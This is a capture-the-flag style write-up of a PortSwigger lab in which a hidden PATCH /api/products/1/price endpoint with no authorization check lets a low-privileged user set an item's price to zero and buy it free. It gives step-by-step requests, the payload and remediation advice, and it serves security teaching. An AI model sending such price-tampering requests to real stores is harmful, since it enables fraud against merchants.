


## Metadata

- **Difficulty:** Practitioner
- **Category:** API Testing
- **Lab URL:** [Lab: Finding and exploiting an unused API endpoint](https://portswigger.net/web-security/api-testing/lab-exploiting-unused-api-endpoint)
- **Date Solved:** 29/9/2026
## Vulnerability Summary

 The app contains a hidden API endpoint (`PATCH /api/products/1/price`) which can be used to change the price of any arbitrary item. Crucially, this endpoint lacks proper authorization controls, allowing any authenticated low-privileged user to access and use it.  This allows an attacker (or any authenticated user) to buy any item for free.
## Reconnaissance

- Logging in with the credentials `wiener:peter` at the `/login` endpoint, we are taken to the `/my-account` endpoint. It is observed that we have `$0.00` in our store credit, while the target item, `Lightweight "l33t" Leather Jacket`, costs `$1337.00`.
- Make a `GET /product?productId=1` to the target item. We see that the client also sends the `GET /api/products/1/price` along with it, which presumably is to retrieve the `price` and `message` information of the item. We send this request to Repeater for further testing.
```json
{
	"price":"$1337.00",
	"message":"&#x1F525; 16 left in stock, purchase quick! &#x1F525;"
}
```
- Try changing the request method to `OPTIONS`, `PUT`, `POST`, `DELETE` all yields `405 Method Not Allowed`. However, `PATCH /api/products/1/price HTTP/2` results in a `400 Bad Request` response that reads:
```json
{
	"type":"ClientError",
	"code":400,
	"error":"Only 'application/json' Content-Type is supported"
}
```
- Supplying the header `Content-Type: application/json` with an empty `json` block in the request body also yields `400 Bad Request`, but this time with a different response body:
```json
{
	"type":"ClientError",
	"code":400,
	"error":"'price' parameter missing in body"
}
```
- Following the format of the `GET /api/products/1/price` request, we supplement the response with:
```http
Content-Type: application/json
Content-Length: 21

{
"price":"$0.00"
}
```
We still get `400 Bad Request`, but this time it says: `"error":"'price' parameter must be a valid non-negative integer"`.
- Thus, we change the request body to:
```json
{
"price": 0
}
```
This time, we get a `200 OK`:
```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

{
"price":"$0.00"
}
```
- Sending `GET /api/products/1/price` now reveals that the item's price has been successfully modified to be `$0.00`:


## Exploitation Steps

1. Navigate to the `/login` endpoint and login with credentials `wiener:peter`.
2. Make a `GET /product?productId=1` request by clicking on "View details" of the `Lightweight "l33t" Leather Jacket` item. Observe that in the HTTP history, the `GET /api/products/1/price` request is automatically sent with it. Send this request to Repeater.
3. Modify the request method to `PATCH`, then append the following block onto the request before sending it:
```http
Content-Type: application/json

{
"price": 0
}
```
4. Observe that you received a `200 OK`, and the price of target item has been changed to `$0.00`. Proceed to buying it like normal (`POST /cart` -> `GET /cart` -> `POST /cart/checkout` -> `GET /cart/order-confirmation?order-confirmed=true`). Lab is solved.

## Payload Used

Request:
```
PATCH /api/products/1/price HTTP/2
Host: [lab-id].web-security-academy.net
Cookie: session=[token]
...
Content-Type: application/json

{
"price": 0
}
```
The `PATCH` method to the `/api/products/1/price` endpoint is allowed and can be used to modify an item's price.
## Root Cause

The app fails to implement any validation mechanism (e.g., only authenticated admin-role users allowed) regarding the sensitive endpoint `PATCH /api/products/1/price` (BFLA).
## Remediation

- **Enforce Role-Based Access Control (RBAC):**
    - Implement strict server-side authorization middleware on all state-altering API methods (`PATCH`, `PUT`, `POST`, `DELETE`).
    - Explicitly verify that the requesting session possesses administrative privileges before executing business logic that updates product pricing. Do not rely on endpoint obscurity or client-side UI restrictions.
- **Disable or Restrict Unused HTTP Methods:**
    - If the app client only requires reading price data, configure the web server/API gateway to reject non-`GET` methods with `405 Method Not Allowed`.
    - Completely decommission unneeded legacy or debug endpoints from production codebases.
- **Input Validation & Business Logic Defense:**
    - Implement sanity checks on monetary values (e.g., rejecting zero or sub-cost price overrides unless explicitly accompanied by a validated promotional override process).
    - Verify total transaction amounts against an authoritative, server-side product database at the checkout phase rather than accepting client-initiated price changes.